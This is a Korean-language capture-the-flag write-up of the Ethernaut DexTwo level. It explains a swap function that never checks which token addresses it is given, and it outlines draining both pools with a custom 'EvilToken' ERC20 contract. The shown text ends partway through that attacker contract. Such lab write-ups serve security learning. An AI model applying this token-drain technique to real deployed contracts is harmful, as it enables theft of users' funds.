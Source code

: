 # DexTwo - Ethernaut Writeup

## 🎯 문제 개요

DexTwo는 이전 Dex 문제의 수정된 버전으로, **입력 검증 부족 취약점**을 이용하는 문제입니다. 목표는 DexTwo 컨트랙트에서 token1과 token2의 **모든 잔액을 탈취**하는 것입니다.

### 초기 조건
- Player: token1 10개, token2 10개 보유
- DexTwo: token1 100개, token2 100개 보유

## 📋 코드 분석

### 핵심 취약점 - swap 함수
```solidity
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

**취약점**: `from`과 `to` 매개변수가 `token1` 또는 `token2`인지 검증하지 않습니다!

### getSwapAmount 공식
```solidity
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

## 🚀 공격 전략

**핵심 아이디어**: 악의적인 ERC20 토큰을 생성하여 조작된 잔액 비율로 모든 토큰을 탈취

1. **악의적인 토큰 생성**: 충분한 공급량을 가진 ERC20 토큰 배포
2. **DexTwo에 소량 전송**: 악의적인 토큰 1개를 DexTwo로 전송
3. **비율 조작 이용**: 1:100 비율로 모든 정상 토큰 탈취

## 🛠️ 실제 공격 과정

### 1단계: 악의적인 토큰 배포 (Remix 사용)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MaliciousToken {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;
    
    string public name = "EvilToken";
    string public symbol = "EVIL";
    uint8 public decimals = 18;
    uint256 public totalSupply;
    
    constructor() {
        totalSupply = 1000 * 10**18;
        balanceOf[msg.sender] = totalSupply;
```